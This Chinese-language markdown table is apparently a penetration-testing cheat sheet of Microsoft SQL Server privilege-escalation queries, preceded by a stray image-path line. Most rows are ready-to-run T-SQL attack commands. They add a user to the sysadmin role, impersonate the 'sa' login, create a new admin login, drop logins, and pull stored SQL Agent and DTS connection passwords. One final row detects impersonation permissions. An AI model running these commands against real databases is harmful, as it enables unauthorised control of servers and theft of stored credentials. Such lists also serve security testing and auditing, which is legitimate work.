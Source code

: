 ## 提权

|描述|查询语句|
|----|----|
|使用户成为DBA|EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin';|
|模拟登录|EXECUTE AS LOGIN = 'sa'; SELECT @@VERSION;|
|创建系统管理员用户|EXEC sp_addlogin 'user', 'pass';<br>EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin';|
|删除用户|EXEC sp_droplogin 'user';|
|检索SQL代理连接密码|exec msdb.dbo.sp_get_sqlagent_properties|
|检索DTS连接密码|select msdb.dbo.rtbldmbprops|
|检测模拟登录|SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'|
